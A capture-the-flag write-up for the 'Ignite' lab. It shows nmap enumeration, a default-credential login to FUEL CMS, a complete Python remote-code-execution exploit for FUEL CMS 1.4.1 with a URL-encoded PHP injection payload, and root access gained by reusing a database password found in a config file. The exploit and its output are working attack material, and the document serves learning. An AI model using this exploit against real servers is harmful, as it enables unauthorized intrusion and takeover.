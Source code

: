```yaml
---
title: Ignite
published: 2025-08-26
description: 'A new start-up has a few issues with their web server.'
image: './Ignite-Images/logo.jpg'
tags: ['CMS','PRIVSEC','SHELL','DEFAULT']
category: 'Web Exploitation'
draft: false 
---
```


## Enumeration:
```shell
❯❯ nmap -sCV -A -T4 10.10.209.134
Starting Nmap 7.97 ( https://nmap.org ) at 2025-08-26 12:02 +0100
Nmap scan report for 10.10.209.134
Host is up (0.071s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.82 seconds
```
> - After Searching i found this path in `robots.txt` is `http://<IP>/fuel` :
![cms](./Ignite-Images/cms.jpg)

## Exploitation

> - Now i try Default Credentials For CMS Fuel is `admin:admin`
> - Successful login
> - But I dont Have Access For upload Reverse-Shell because he has a blacklist like `.pdf / .png ...`
> - So, you can try searching for [CVE-FUEL-CMS](https://www.exploit-db.com/exploits/50477)

```py
#!/usr/bin/python3

import requests
from urllib.parse import quote
import argparse
import sys
from colorama import Fore, Style

def get_arguments():
	parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[0]} -u <url>',epilog=f'EXAMPLE - python3 {sys.argv[0]} -u http://10.10.21.74')

	parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

	parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

	args = parser.parse_args()

	if len(sys.argv) <=2:
		parser.print_usage()
		sys.exit()
	
	return args


args = get_arguments()
url = args.url 

if "http" not in url:
	sys.stderr.write("Enter vaild url")
	sys.exit()

try:
   r = requests.get(url)
   if r.status_code == 200:
       print(Style.BRIGHT+Fore.GREEN+"[+]Connecting..."+Style.RESET_ALL)


except requests.ConnectionError:
    print(Style.BRIGHT+Fore.RED+"Can't connect to url"+Style.RESET_ALL)
    sys.exit()

while True:
	cmd = input(Style.BRIGHT+Fore.YELLOW+"Enter Command $"+Style.RESET_ALL)
		
	main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"

	r = requests.get(main_url)

	#<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

	output = r.text.split('<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">')
	print(output[0])
	if cmd == "exit":
		break
```

```shell
❯❯ python3 script.py -u http://10.10.140.243
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```
> - Now i can use reverse shell :
![SHELL](./Ignite-Images/shell2.jpg)

## Privilege Escalation

> - Great!! / Now i found a File database in : `/var/www/fuel/application/config`
> - in this file i have passwd of root DB 
> - So, Now im ROOT :
```shell
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
	@include(TESTER_PATH.'config/tester_database'.EXT);
}
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/var/www/html/fuel/application/config# 
```
